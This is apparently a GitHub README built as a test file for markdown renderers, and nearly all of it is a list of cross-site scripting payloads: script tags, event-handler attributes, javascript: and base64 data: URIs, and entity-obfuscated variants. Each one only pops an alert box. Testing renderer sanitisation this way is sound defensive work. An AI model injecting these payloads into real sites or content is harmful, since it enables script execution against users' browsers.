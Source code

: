 # ⚠️ XSS Payload Injection Test

This README file includes **XSS payloads** in different markdown contexts.

## 1. Basic HTML Injection

<svg/onload=alert(1)>
<iframe src="javascript:alert('XSS')"></iframe>
<img src=x onerror=alert('XSS')>
<script>alert('XSS')</script>
<details open ontoggle=alert('XSS')><summary>XSS</summary></details>
<math><mtext><svg><animate attributeName="href" values="javascript:alert(1)" /></svg></mtext></math>

## 2. Markdown Image Injection

![XSS](javascript:alert('XSS'))
![xss](data:image/svg+xml;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+)

## 3. Link Injection

[Click Me](javascript:alert('XSS'))
[Link](data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==)

## 4. Inline Code Injection

Here’s a code block with `"><img src=x onerror=alert('XSS')>` inside.

## 5. HTML Elements

<div onmouseover="alert('XSS')">Hover me!</div>
<a href="javascript:alert('XSS')">Click</a>
<video><source onerror="alert(1)"></video>
<body onload=alert(1)>

## 6. Autocomplete Fields

<input type="text" value="XSS" onfocus="alert('XSS')">
<textarea onfocus=alert('XSS')>XSS</textarea>

## 7. Obfuscated Payloads

<img src=x onerror=&#97;&#108;&#101;&#114;&#116;(1)>
<svg><desc><![CDATA[</desc><script>alert(1)</script>]]></svg>

## 8. CSS-based XSS (in some cases)

<div style="background-image:url(javascript:alert(1))">Test</div>

## 9. Data URI Payloads

<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></iframe>

## 10. Comment Injection (for systems parsing comments)

<!-- <img src=x onerror=alert(1)> -->

---

### ✅ Disclaimer

This file is made for **testing how a markdown-rendering system handles unsafe content**. Use it only in **safe, isolated test environments**.

